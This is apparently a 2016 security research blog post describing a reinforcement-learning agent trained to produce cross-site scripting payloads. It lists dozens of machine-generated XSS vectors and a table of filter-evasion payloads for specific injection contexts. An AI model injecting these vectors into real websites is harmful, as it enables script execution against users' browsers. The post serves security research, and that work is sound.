 Date: 2016-03-26
Slug: teaching-xss-to-machine
Title: Teaching XSS to a machine
Category: Hacks
Tags: tools
image: https://web.stanford.edu/group/pdplab/pdphandbook/suttonbarto_rl.png

Even before we start anything, just have a glance at few interesting vectors that were dreamt by a machine learning agent which has structural
knowledge of HTML. Few vectors require user interaction also. I tried to add comments about what I think is special about few of those.

```html
<body onblur=x onload=popup=1;>
<body onerror=popup=1;><svg/onfocus=import>  <!-- When the svg is clicked, the js fails and body onerror is triggered. WOW!! -->
<body onload=popup=1;>
<body rel='popup=1;'onerror=popup=1; onload=x >
<button autofocus=x onchange='import'onfocus=popup=1; >
<button data=popup=1; id='x'onfocus=popup=1; >
<button onclick=popup=1;>
<canvas onclick="popup=1;">
<embed onfocus='popup=1;'><img
<form formaction=popup=1; onclick=popup=1;><object>  <!-- Involves a click on object -->
<form href='x'onclick=popup=1;><select>
<frameset id="x"onload=popup=1;>
<frameset onload=popup=1;>
<iframe onload=popup=1;>
<img srcset=popup=1; onerror=popup=1;>
<input onclick=popup=1; >
<input onfocus=popup=1; autofocus="x">
<input srcset=x href=x onclick=popup=1; >
<link rel=import href=data:text/html;base64,PHNjcmlwdD5wb3B1cD0xOzwvc2NyaXB0Pg==>  <!-- This is awesome -->
<object onfocus=popup=1;>
<select onclick="popup=1;">
<select onclick=popup=1;>
<source onclick=popup=1; ><frameset/onload=popup=1;>  <!-- Interesting as, agent was trying to find vector with no user interaction and only two allowed spaces in input -->
<svg onclick=popup=1;>
<svg onload=popup=1;>
<video onclick=popup=1;>
```

### Introduction

Let's talk about XSS first. How are you successful in creating a payload for demoing/exploiting a Cross Site Scripting vulnerability? It depends on your
ability to understand the HTML markup and inject a javascript statement in an executional context. If you think about it, your most basic payload starts from
``<script>alert(1);</script>`` to ``<img src=x onerror='alert()'>``.

### Reinforcement Learning

A branch of machine learning in which an agent learns optimum actions for different scenarios based on it's past experiences. A more elegant way of explaining
RL is taken from [here](http://www.cse.unsw.edu.au/~cs9417ml/RL1/introduction.html)

An RL agent learns by interacting with its environment and observing the results of these interactions. This mimics the fundamental way in which
humans (and animals alike) learn. As humans, we have a direct sensori-motor connection to our environment, meaning we can perform actions and witness
the results of these actions on the environment. The idea is commonly known as "cause and effect", and this undoubtedly is the key to building up
knowledge of our environment throughout our lifetime. The "cause and effect" idea can be translated into the following steps for an RL agent:

+ The agent observes an input state
+ An action is determined by a decision making function (policy)
+ The action is performed
+ The agent receives a scalar reward or reinforcement from the environment
+ Information about the reward given for that state / action pair is recorded

By performing actions, and obersving the resulting reward, the policy used to determine the best action for a state can be fine-tuned.
Eventually, if enough states are observed an optimal decision policy will be generated and we will have an agent that performs perfectly in
that particular environment.

### Idea

Consider the following markup ``<div class="INJECTION_POINT">``. By a simple look you are aware that inorder to execute an XSS you come out of the
class attribute context and put a payload. A simple vector in the above scenario is ``"><img src=x onerror=alert()>``. This is very trivial because
of your exposure to HTML markup, so I believed that if I can somehow impart the knowledge of html to an RL agent and let it play with it for few hours,
it should be able to provide some simple XSS payloads in different scenarios.

So, for the same scenario above, the RL agent get a state representation like

```
1_tag: div
1_tag_ap: class
context: attr_value
context: class
```

If the above state representation doesn't make any sense, just ignore it. All it does is try to represent the markup. Now, when I tried it against the
agent that I trained, I got the following payload

```html
<div class=""><button onclick=popup=1;>
```

Not an optimized payload, as a matter of fact this infact requires user interaction. But this is a good starting point.


### Simplifications

You can just give the set of alphabets and control characters (i.e ',",<,> etc.) as actions and the agent will learn valid HTML if you give negative reward
for all non valid markup that it generates. But for the agent to learn html huge training time is required. Similarly, there are other issues which I will not
go into detail but try to explain the simplifications I applied.

+ To speedup the training time, instead of giving just alphabets I gave all the html tags, attributes as actions.
+ Based on the html parsing, html tags are made available only when the context is a tag name etc..
+ Similarly based on the html parsing attributes and their values are made available only when the context needs one of those.

All the simplifications impart the knowledge of structure of html (XML like structure) only.

### Current State

After training for about **3 hours** with **25 html tags** and **25 attribute names**, the agent aquires good level of knowledge. I provided the following injection
sink ``<button INJECTION_POINT``. Based on different restrictions the agent chooses different actions

| Conditions | Payload |
| No restrictions | ``onclick=popup=1;>`` |
| No user interaction | ``><svg onload='popup=1;'>`` |
| No user interaction + No space | ``><iframe/onload='popup=1'>`` |
| No user interaction + No space + No Quotes | ``><iframe/onload=popup=1>`` |
| No user interaction + No 'onload' | ``><input autofocus='x' onfocus=popup=1;>`` |

### Future Work (Planned so far!)

+ Shift to a sparse sampling way to speed up learning.
+ If RlPy is not being suited, shift to [**Theano**](http://deeplearning.net/software/theano/) and use [**Lasagne**](http://lasagne.readthedocs.org/en/latest/)  for neural network to remember the value function.
+ A better state representation of only javascript might be interesting to try out. Why? Because AngularJS has a top notch sandbox to test against!!

I am calling this project as [**Nightfury**](https://github.com/tunnelshade/nightfury) and planning to write a detailed technical blog post on how this has
been achieved so far. The github repo needs some cleanup, but as of now please bear with this!
